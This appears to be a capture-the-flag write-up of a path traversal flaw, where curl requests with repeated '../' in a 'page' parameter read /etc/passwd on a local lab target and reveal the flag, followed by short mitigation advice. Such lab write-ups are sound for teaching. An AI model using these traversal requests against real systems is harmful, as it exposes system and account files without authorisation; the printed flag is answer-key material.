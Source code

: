 > From burp suite

### Solution
The `page` query parameter dictates what page to be rendered by specifying the file path to the source code. This is vulnerable as the user is able to request for files outside the files meant to be served. 

The site gives a special message when such request is made

```
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl $TARGET_IP/?page=../../../ | grep alert
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6925    0  692<script>alert('Nope..');</script><!DOCTYPE HTML>
5    0     0  4578k      0 --:--:-- --:--:-- --:--:-- 6762k
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl $TARGET_IP/?page=../../../../ | grep alert
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6926    0  6926    0     0  6148k      0 --:--:-- --:--:-- --:--:-<script>alert('Almost.');</script><!DOCTYPE HTML>
- 6763k
```


Upon reaching a certain depth, we get a fixed message when we go further

```
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl http://localhost:8080/?page=../../../../../../../../../../ | grep alert
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6940    0  6940    0     0  5332k      0 <script>alert('You can DO it !!!  :]');</script><!DOCTYPE HTML>
--:--:-- --:--:-- --:--:-- 6777k

```

In linux, the `/etc/passwd` contains information about user accounts, hence it was attempted, and we get the flag

```
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl http://localhost:8080/?page=../../../../../../../../../../etc/passwd | grep alert
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7014    0  7014    0     0  5157k      0 --:--:--<script>alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');</script><!DOCTYPE HTML>
 --:--:-- --:--:-- 6849k
```

> The flag is `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

### Mitigation
- Deploy site pages in a chroot jail or a container so sensitive files wont be compromised
- Validate request path in rendering engine 
